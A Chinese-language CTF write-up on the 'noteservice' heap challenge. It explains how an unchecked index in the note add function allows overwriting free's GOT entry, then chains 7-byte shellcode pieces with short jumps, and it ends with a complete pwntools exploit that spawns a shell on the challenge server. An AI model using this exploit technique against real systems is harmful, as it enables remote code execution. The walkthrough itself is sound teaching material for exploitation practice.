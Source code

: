 ```yaml
---
layout: post
title: "noteservice"
date: 2024-7-17
tags: [pwn]
comments: true
author: gbeefee

---
```


第一次做堆题，到处找了不少wp（汗）

先看保护，pie和canary，问题不大，没什么

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/noteservice/0.png)

程序主体是一个菜单，实际上只实现了add和delete两个功能，edit和show都是假的。

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/noteservice/1.png)

注意到add里对index没有做限制，也就是可以通过下标对任意地址写。

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/noteservice/2.png)

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/noteservice/3.png)

但是，这个程序是开了pie保护的，又没有show可以暴露基址，想直接修改某个位置到想要的函数有难度，没开NX保护，可以考虑在堆上布置shellcode。

申请堆块基于2020A0，可以看到附近用很多函数的got表地址，可以挑一个合适的下手

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/noteservice/4.png)

利用调用该函数的时候执行我们的shellcode，这里就用free，这样只要在布置好shellcode后执行一次delete操作就可以执行shellcode了。

由于这个mallco限制size为8，mallco函数还会再数据末尾加个0或1，每个chunk可用的空间只剩下7个字节了，绝对不可能一次性写完所有shellcode，要考虑分多次写入，而我们申请的chunk也不是写入连续的字符，中间夹了一些其他数据，结构如图：

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/noteservice/5.png)

也就是说，我们需要在每一段的末尾加一个跳转指令，这样才能保证shellcode正确执行。这里选择短跳转指令"jmp short"，即\xeb，跳转长度为0x8+0x8+0x8+0x1= 0x19

shellcode要做的：

提供参数“/bin/sh"，eax赋值为59，rsi赋值0，rdx赋值0，rdi赋值0，最后syscall。

因为要保证chunk大小一致，每次申请的size都是8，有些指令长有些指令短，指令和jmp short中间又不能随意填充，比如\x00会直接截断，那就要用到滑板指令了

滑板指令，其实就是空指令或者是类空指令，空指令：0x90 类空指令：0x0A，0x0C，0x0D，这些指令执行后不会对我们的shellcode产生影响，可以帮助我们完成shellcode的执行。



完整exp：

```python
from pwn import *

#io = process('./note')
io = remote('61.147.171.105', 49678)
context(arch='amd64', os='linux', endian='little')

def add_note(idx, size, content):
    global io
    io.sendlineafter(b"your choice>> ", b'1')
    io.sendlineafter(b"index:", str(idx).encode())
    io.sendlineafter(b"size:", str(size).encode())
    io.sendlineafter(b"content:", content)
    
def delete_note(idx):
    global io
    io.sendlineafter(b"your choice>> ", b'4')
    io.sendlineafter(b"index:", str(idx).encode())

# 利用 jmp short s指令写shellcode
# 修改free@got处地址为堆地址
add_note(0, 8, b'/bin/sh')
add_note(-17 , 8, asm('xor rsi, rsi') + b'\x0C\x0C\xEB\x19')
add_note(1, 8, asm('xor rdx, rdx') + b'\x0C\x0C\xEB\x19')
add_note(2, 8, asm('mov eax, 59') + b'\xEB\x19')
add_note(4, 8, asm('syscall'))

delete_note(0)

io.interactive()

```

